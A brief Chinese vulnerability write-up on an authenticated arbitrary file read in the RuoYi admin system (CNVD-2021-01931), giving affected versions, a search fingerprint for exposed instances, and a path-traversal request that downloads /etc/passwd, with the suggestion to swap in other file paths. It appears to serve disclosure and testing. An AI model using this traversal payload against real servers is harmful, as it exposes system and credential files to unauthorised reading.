



# 若依管理系统 后台任意文件读取 CNVD-2021-01931

## 漏洞描述

若依管理系统是基于SpringBoot的权限管理系统,登录后台后可以读取服务器上的任意文件

## 漏洞影响

<a-checkbox checked>RuoYi < v4.5.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="若依-管理系统"</a-checkbox></br>

## 漏洞复现

登录后台后访问 Url

```shell
/common/download/resource?resource=/profile/../../../../etc/passwd
```




访问后会下载文件 `/etc/passwd`





可以使用Burp抓包改变 `/etc/passwd` 为其他文件路径获取敏感信息





在新版本的修复中添加了过滤

